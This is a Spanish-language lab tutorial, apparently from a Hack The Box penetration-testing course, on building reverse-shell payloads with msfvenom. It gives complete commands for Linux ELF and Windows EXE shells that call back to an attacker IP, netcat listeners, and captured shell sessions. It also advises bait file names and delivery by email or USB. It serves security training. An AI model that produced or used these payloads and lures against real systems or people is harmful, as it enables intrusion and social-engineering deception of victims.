


# Crafting Payloads with MSFvenom

Debemos tener en cuenta que el uso de ataques automatizados en Metasploit requiere que tengamos acceso a la máquina objetivo vulnerable a través de la red. Consideremos lo que hicimos en la sección anterior. Para ejecutar el módulo de exploit, entregar el payload y establecer la sesión de shell, necesitamos comunicarnos con el sistema en primer lugar. Esto pudo haber sido posible al tener presencia en la red interna o una red que tenga rutas hacia la red donde reside el objetivo. Habrá situaciones en las que no tengamos acceso directo a una máquina vulnerable. En estos casos, necesitaremos ser creativos en la forma de entregar y ejecutar el payload en el sistema. Una forma de hacerlo es usando **MSFvenom** para crear un payload y enviarlo mediante un mensaje de correo electrónico o a través de otros métodos de ingeniería social, impulsando al usuario a ejecutar el archivo.

Además de proporcionar un payload con opciones flexibles de entrega, **MSFvenom** también nos permite cifrar y codificar los payloads para evitar las firmas comunes de detección de antivirus. Practiquemos un poco estos conceptos.

## Practicando con MSFvenom

En **Pwnbox** o cualquier host con **MSFvenom** instalado, podemos emitir el comando `msfvenom -l payloads` para listar todos los payloads disponibles. A continuación, se muestran algunos de los payloads disponibles. Algunos han sido redactados para acortar la salida y no distraer del concepto principal. Observa los payloads y sus descripciones:

```bash
sherlock28@htb[/htb]$ msfvenom -l payloads

Framework Payloads (592 total) [--payload <value>]
==================================================

    Name                                                Description
    ----                                                -----------
linux/x86/shell/reverse_nonx_tcp                    Spawn a command shell (staged). Connect back to the attacker
linux/x86/shell/reverse_tcp                         Spawn a command shell (staged). Connect back to the attacker
linux/x86/shell/reverse_tcp_uuid                    Spawn a command shell (staged). Connect back to the attacker
linux/x86/shell_bind_ipv6_tcp                       Listen for a connection over IPv6 and spawn a command shell
linux/x86/shell_bind_tcp                            Listen for a connection and spawn a command shell
...
windows/dllinject/reverse_tcp                       Inject a DLL via a reflective loader. Connect back to the attacker
windows/dllinject/reverse_tcp_rc4_dns               Inject a DLL via a reflective loader. Connect back to the attacker
...
```

#### ¿Qué observamos en la salida?

Podemos ver algunos detalles que nos ayudarán a entender mejor los **payloads**. Primero, vemos que la convención de nombres de los **payloads** casi siempre empieza listando el sistema operativo del objetivo (**Linux**, **Windows**, **MacOS**, etc.). También vemos que algunos payloads se describen como **(staged)** o **(stageless)**. Veamos la diferencia.

## Payloads **Staged** vs. **Stageless**

Los **payloads staged** crean una manera de enviar más componentes de nuestro ataque. Podemos verlo como "preparar el escenario" para algo más útil. Por ejemplo, el payload `linux/x86/shell/reverse_tcp`. Cuando se ejecuta usando un módulo de exploit en Metasploit, este payload enviará una pequeña fase que se ejecutará en el objetivo y luego se conectará de nuevo a la máquina atacante para descargar el resto del payload por la red y luego ejecutar el código para establecer una shell reversa.

Los **payloads stageless** no tienen una etapa previa. Por ejemplo, el payload `linux/zarch/meterpreter_reverse_tcp`. Usando un módulo de exploit en Metasploit, este payload se enviará en su totalidad a través de una conexión de red sin ninguna fase. Esto puede ser útil en entornos donde no tenemos acceso a mucho ancho de banda y la latencia podría interferir. En estos casos, es mejor seleccionar un payload stageless.

#### Identificando Payloads Staged y Stageless en Metasploit

La respuesta es simple: el nombre del payload te dará tu primera pista. Consideremos estos ejemplos:

* `linux/x86/shell/reverse_tcp`: Es un **payload staged**, lo sabemos porque cada **/** en su nombre representa una fase.
* `linux/zarch/meterpreter_reverse_tcp`: Es un **payload stageless**, ya que todo está en una única fase, sin separaciones.

Por último, consideremos estos dos payloads para Windows:

* `windows/meterpreter/reverse_tcp`: **Staged** (notamos las fases separadas).
* `windows/meterpreter_reverse_tcp`: **Stageless** (todo en una sola función).

Si el nombre del payload no es lo suficientemente claro, la descripción usualmente detallará si es **staged** o **stageless**.

## Construcción de un Payload Stageless

Ahora, construyamos un payload **stageless** sencillo usando **msfvenom** y desglosamos el comando utilizado.

**Comando:**

```bash
sherlock28@htb[/htb]$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf

[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
```

#### Desglose del Comando:

### **1. Llamada a MSFvenom**

```bash
msfvenom
```

Define la herramienta utilizada para crear el **payload**.

### **2. Creación de un Payload**

```bash
-p
```

Esta opción indica que **msfvenom** está creando un **payload**.

### **3. Selección del Payload basándose en la Arquitectura**

```bash
linux/x64/shell_reverse_tcp
```

Especifica un **payload stageless** de 64 bits para Linux que iniciará una **shell inversa** basada en TCP (**shell\_reverse\_tcp**).

### **4. Dirección IP para Conectar de Vuelta**

```bash
LHOST=10.10.14.113 LPORT=443
```

Cuando se ejecute el **payload**, se conectará de vuelta a la dirección IP especificada (**10.10.14.113**) en el puerto (**443**).

### **5. Formato para Generar el Payload**

```bash
-f elf
```

La opción **-f** especifica el formato del archivo binario generado. En este caso, será un archivo **.elf** (formato utilizado en sistemas Linux).

### **6. Salida**

```bash
> createbackup.elf
```

Genera el binario **.elf** y lo nombra como **createbackup**. Podemos asignarle cualquier nombre. Idealmente, elegiríamos algo que no sea sospechoso o que pueda tentar a alguien a descargarlo y ejecutarlo.

## Ejecución de un Payload Stageless

En este punto, ya hemos creado el **payload** en nuestra máquina de ataque. Ahora necesitamos desarrollar una forma de transferir ese **payload** al sistema objetivo. Existen innumerables formas de hacer esto. A continuación, se mencionan algunos de los métodos más comunes:

* Enviar un mensaje de correo electrónico con el archivo adjunto.
* Proporcionar un enlace de descarga en un sitio web.
* Combinarlo con un módulo de **exploit** de Metasploit (esto requeriría probablemente que ya estemos en la red interna).
* Utilizar una memoria USB como parte de una prueba de penetración física en el sitio.

Una vez que el archivo esté en el sistema, también será necesario ejecutarlo.

Imagina por un momento que la máquina objetivo es una caja Ubuntu que un administrador de TI utiliza para gestionar dispositivos de red (alojar scripts de configuración, acceder a routers y switches, etc.). Podríamos hacer que el administrador haga clic en el archivo que le enviamos por correo electrónico, si estaba utilizando el sistema de manera descuidada, como si fuera una computadora personal o de trabajo.

### Payload en Ubuntu

Tendríamos un **listener** listo para capturar la conexión desde la máquina de ataque una vez que el **payload** se ejecute correctamente.

<figure><figcaption></figcaption></figure>

### Conexión usando Netcat

```bash
sherlock28@htb[/htb]$ sudo nc -lvnp 443
```

Cuando el archivo se ejecuta, observamos que hemos capturado una **shell**.

### Conexión Establecida

```bash
sherlock28@htb[/htb]$ sudo nc -lvnp 443

Listening on 0.0.0.0 443
Connection received on 10.129.138.85 60892
env
PWD=/home/htb-student/Downloads
cd ..
ls
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
```

Este mismo concepto se puede utilizar para crear **payloads** para varias plataformas, incluyendo Windows.

## Construcción de un Payload Stageless simple para un sistema Windows

También podemos usar **msfvenom** para crear un archivo ejecutable (.exe) que pueda ejecutarse en un sistema Windows y proporcione una shell inversa.

#### Creación del Payload para Windows

```bash
sherlock28@htb[/htb]$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > BonusCompensationPlanpdf.exe

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

La sintaxis de este comando se puede desglosar de la misma manera que lo hicimos anteriormente. La única diferencia es la plataforma (Windows) y el formato del **payload** (.exe).

## Ejecución de un Payload Stageless simple en un sistema Windows

Este es otro escenario en el que necesitamos ser creativos para entregar el **payload** al sistema objetivo. Sin codificación o cifrado, el **payload** en esta forma casi con certeza sería detectado por Windows Defender u otro software antivirus.

<figure><figcaption></figcaption></figure>

Si el antivirus estuviera deshabilitado, todo lo que el usuario tendría que hacer es hacer doble clic en el archivo para ejecutarlo, y entonces tendríamos una sesión **shell**.

#### Conexión usando Netcat

```bash
sherlock28@htb[/htb]$ sudo nc -lvnp 443
```

Al ejecutar el archivo, capturamos una **shell** inversa desde el sistema Windows:

```bash
Listening on 0.0.0.0 443
Connection received on 10.129.144.5 49679
Microsoft Windows [Version 10.0.18362.1256]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Users\htb-student\Downloads>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is DD25-26EB

 Directory of C:\Users\htb-student\Downloads

09/23/2021  10:26 AM    <DIR>          .
09/23/2021  10:26 AM    <DIR>          ..
09/23/2021  10:26 AM            73,802 BonusCompensationPlanpdf.exe
               1 File(s)         73,802 bytes
               2 Dir(s)   9,997,516,800 bytes free
```
